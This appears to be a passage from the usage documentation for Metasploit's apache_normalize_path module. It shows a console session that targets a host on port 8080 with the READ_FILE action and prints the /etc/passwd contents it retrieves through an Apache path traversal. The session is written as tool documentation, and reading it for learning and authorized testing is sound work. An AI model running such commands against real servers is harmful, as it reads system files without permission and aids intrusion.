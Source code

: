 ```
msf6 auxiliary(scanner/http/apache_normalize_path) > 
```

### Read file

```
msf6 auxiliary(scanner/http/apache_normalize_path) > use auxiliary/scanner/http/apache_normalize_path
msf6 auxiliary(scanner/http/apache_normalize_path) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf6 auxiliary(scanner/http/apache_normalize_path) > setg rport 8080
rport => 8080
msf6 auxiliary(scanner/http/apache_normalize_path) > setg ssl false
ssl => false
msf6 auxiliary(scanner/http/apache_normalize_path) > setg verbose true
verbose => true
msf6 auxiliary(scanner/http/apache_normalize_path) > setg action READ_FILE
action => READ_FILE
msf6 auxiliary(scanner/http/apache_normalize_path) > run

[*] Obtained HTTP response code 200.
[+] 172.20.4.11:8080 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] File saved in: /home/mekhalleh/.msf4/loot/20211010161150_default_172.20.4.11_apache.traversal_540877.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/apache_normalize_path) > 
```
## References
